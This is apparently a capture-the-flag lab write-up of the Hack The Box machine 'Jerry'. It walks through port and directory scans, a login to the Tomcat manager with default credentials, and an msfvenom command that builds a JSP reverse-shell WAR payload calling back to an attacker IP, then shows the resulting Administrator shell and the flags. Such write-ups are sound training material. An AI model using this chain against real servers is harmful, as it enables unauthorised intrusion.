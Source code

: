 ```yaml
---
title:     "Hack The Box - Jerry"
tags: [windows,easy,tomcat]
layout: post
---
```



![694398c04fbbb4b4c6b507180ee3fb06.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/70f494906c3d48118c3b9a09dc3e7620.png)

We are going to pwn Jerry from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/144>

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

## HTTP:

Only HTTP Port is open, and its running `Tomcat` service and its version is `7.0.88`. We get the default tomcat configuration page.


![679f2e5cfa08b4e9f4bbcebeed0010af.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/763886848f9a45c6aac20183903457fe.png)


## Gobuster Results:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.95:8080/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/04/20 10:22:14 Starting gobuster
===============================================================
/aux (Status: 200)
/com1 (Status: 200)
/com2 (Status: 200)
/com3 (Status: 200)
/con (Status: 200)
/docs (Status: 302)
/examples (Status: 302)
/favicon.ico (Status: 200)
/host-manager (Status: 302)
/lpt1 (Status: 200)
/lpt2 (Status: 200)
/manager (Status: 302)
===============================================================
2020/04/20 10:24:23 Finished
===============================================================
```

`/manager`
There is a login page for manager.So let’s try to access it .
![a0986527fad314f30d5833f4792350ad.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/76e47a71750346bbadcb1f91634d868f.png)
The default login credentials for Tomcat. You can get [here](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown).

Logged in successfully with `tomcat : s3cret`


![adeb7712828d540a6af85e0050add2d8.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/2c7cfa06a42540c8ad26bc835670ba73.png)

Here we can see the information about the box.


![1163529f91334808e8417d5e61f4825f.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/af8940be7c0141c4a88476e5b0ca0925.png)

There is a option to upload `WAR` files.


![ea70bbc644929d40c4fdc22a7bdcb11c.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/e12823f25b6d4e80a75bab9783e40150.png)

> WAR file is a file used to distribute a collection of JAR-files, JavaServer Pages, Java Servlets, Java classes, XML files, tag libraries, static web pages and other resources that together constitute a web application.

We can use `msfvenom` for generating a `.war` format payload.
```
root@w0lf:~/CTF/HTB/Boxes/Jerry# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=1234 -f war > shell.war
Payload size: 1088 bytes
Final size of war file: 1088 bytes
```
## Getting Shell:


![1f6a90af94b8fa8eb5ec47af6aa16476.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/27cfc16afbfa4949aac984950183cbaf.png)

The file name is `shell.war` so I can access it as `/shell`

![46508d9cfbb7f76846acbd7434f520bf.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/a779bab5194b478c98de5c4e91c7da8f.png)

```
C:\Users\Administrator>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator

06/18/2018  11:31 PM    <DIR>          .
06/18/2018  11:31 PM    <DIR>          ..
06/19/2018  06:43 AM    <DIR>          Contacts
06/19/2018  07:09 AM    <DIR>          Desktop
06/19/2018  06:43 AM    <DIR>          Documents
06/19/2018  06:43 AM    <DIR>          Downloads
06/19/2018  06:43 AM    <DIR>          Favorites
06/19/2018  06:43 AM    <DIR>          Links
06/19/2018  06:43 AM    <DIR>          Music
06/19/2018  06:43 AM    <DIR>          Pictures
06/19/2018  06:43 AM    <DIR>          Saved Games
06/19/2018  06:43 AM    <DIR>          Searches
06/19/2018  06:43 AM    <DIR>          Videos
               0 File(s)              0 bytes
              13 Dir(s)  27,602,595,840 bytes free

C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:09 AM    <DIR>          flags
               0 File(s)              0 bytes
               3 Dir(s)  27,602,595,840 bytes free
               
C:\Users\Administrator\Desktop>cd flags
cd flags

C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,602,595,840 bytes free

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
70----------------------------00

root.txt
04----------------------------0e
               

```

